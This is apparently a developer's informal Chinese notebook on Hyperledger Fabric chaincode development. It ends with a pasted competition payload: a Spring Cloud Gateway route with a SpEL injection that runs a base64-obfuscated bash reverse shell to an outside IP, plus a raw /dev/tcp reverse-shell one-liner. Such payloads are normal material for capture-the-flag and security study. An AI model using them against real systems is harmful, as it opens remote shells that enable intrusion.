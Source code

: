 # nonsense in project root ~
这里主要是记录一些开发时的中间过程（倒着更新）

## useless repos & links
* [fabric-sdk-go仓库](https://github.com/hyperledger/fabric-sdk-go)是用的传统sdk，对gateway方式来说参考意义不大。
* Fabric[中文文档](https://hyperledger.github.io/)（欸好像不是这个网址），github.io的，不过看着好像没什么用

__done:__
* [x] 每个项目下面都放一个nonsense.md，专门记录废话，README只放关键信息
* [x] 整理项目的markdown，FabApp和chaincode交互时写的markdown乱七八糟
* [x] 去command reference看看peer chaincode invoke和peer chaincode query
* [x] 启动test_network也写成脚本，完善readme的test_network部分
* [x] 先拿atcc的chaincode部署在测试网络上
* [x] 自己写chaincode(atcc)测试，数据用my favorite songs
* [x] 重装fabric-samples
* [x] 重装服务器并恢复开发环境

## misc
让Claude来写这个RSA真是写不清楚啊，无语，不如我上网copy。md，mv指令直接把原来的README给覆盖了，还好GitHub上有备份

根据这个文档[devMod](https://hyperledger-fabric.readthedocs.io/en/release-2.5/peer-chaincode-devmode.html)，按照步骤写了4个shell，放在devModOn目录下，并且把示例代码替换成了自己的chaincode，能开起来，但是init失败，可能是语法问题。在[这里](https://hyperledger-fabric.readthedocs.io/en/release-2.5/commands/peerchaincode.html)这里的一个角落找到了contract-api版本的peer chaincode -c格式，不过好像暂时没啥用？不对啊替换成自己的chaincode了凭什么用原来的peer chaincode invoke能正常工作啊。可能是因为之前go build出来的simpleChaincode没删，后来换成我的之后go build出问题了，没能成功build覆盖原来的。【图片】（哈哈哈哈这里没有图，反正就是InitLedger后QueryRecord成功，阿里云盘有一份备份，时间是2023.5.19）成功了呗！接下来：修改了3.sh，每次都进入我的chaincode目录下go build，之后mv到fabric目录下。可以把1.sh中rm simpleChaincode写到3.sh中，再添加一个功能，用于指定我自己写的chaincode的目录，最后全部推送至Github！

Fabric不同版本的问题：1.4链码安装在peer上，2.0链码容器独立运行。在release-2.5的官方文档写的是：Developers can use the network to test their smart contracts and applications.

官方文档一定要看2.5版本的，版本不一样冲突的太多了




国赛某道题的payload...
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "exam",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzgxLjY4LjEzMC4yMDkvOTA5OSAwPiYx}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}

bash -i >&/dev/tcp/81.68.167.39/5000 0>&1